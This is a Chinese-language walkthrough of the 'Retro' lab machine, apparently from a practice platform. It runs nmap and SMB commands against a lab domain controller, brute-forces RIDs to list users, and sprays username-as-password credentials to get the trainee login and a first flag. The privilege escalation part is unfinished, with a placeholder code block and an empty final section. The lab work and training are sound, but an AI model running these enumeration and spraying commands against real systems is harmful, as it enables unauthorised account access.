


# ✔️ Retro

## 建立立足点

### 1. 基本信息收集&枚举：

* 端口扫描，从开启的端口判断该主机为域控机器：

```bash
nmap -sC -sV -p- -oA retro 10.129.234.44 --open 
```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

* 将域名写入/hosts文件：

```bash
echo '10.129.13.15   DC.retro.vl retro.vl' > /etc/hosts
```

### 2. 服务枚举：

#### SMB服务：

* 匿名登录可以看到几个共享文件夹，其中`Trainees` 和 `Notes` 值得注意：

```bash
smbclient -N -L //10.129.234.44
```

<figure><figcaption></figcaption></figure>

* 匿名登录`/Trainees` 文件夹，找到一个Import.txt文件，下载到本地打开查看其内容：

```bash
smbclient \\\\10.129.234.44\\Trainees
get Import.txt
```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

* 尝试使用Guset空密码登录SMB服务成功，这意味着我可以枚举域内用户有哪些：

```bash
nxc smb 10.129.234.44 -u 'Guest' -p ''
```

<figure><figcaption></figcaption></figure>

* 使用guest账户rid暴破出域内的有效用户名：

```bash
nxc smb 10.129.234.44 -u "guest" -p "" --rid-brute | grep -i 'sidtypeuser' | awk '{print $6}' | cut -d '\' -f 2 |tee username.txt
```

<figure><figcaption></figcaption></figure>

* 从邮件内容提示猜测用户Trainees大概率使用弱口令进行登录，因此复制一遍以上的用户名作为password.txt文件，尝试枚举出是否有使用用户名作为密码的账户：

```bash
crackmapexec smb -u username.txt -p password.txt -d retro.vl 10.129.234.44
```

<figure><figcaption></figcaption></figure>

* 找到了用户Trainee使用了和用户名相同的密码，至此获取到第一个有效登录凭证：

<figure><figcaption></figcaption></figure>

#### 其他服务：

* 使用trainee凭证继续尝试登录其他服务，可以登录LDAP：

```bash
nxc ldap 10.129.234.44 -u "trainee" -p "trainee"
```

<figure><figcaption></figcaption></figure>

*


### 2. Get Shell：

* 使用trainee的凭证登录访问/Notes共享文件夹，可以找到第一个Flag：

```bash
smbclient \\\\10.129.234.44\\Notes -U "trainee%trainee"
```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

## 权限提升

### 1. 域内信息收集&枚举：

* 根据在/Notes文件夹中找到的另一个文件/ToDo.txt的内容提示，域内有一台跟银行软件相关的主机账户创建的年代久远，且一直都没有做账户清理：

<figure><figcaption></figcaption></figure>

* 利用之前暴破出来的有效用户名，再次枚举域内有效用户账户：

```
// Some codb
```


### 2. ROOT：





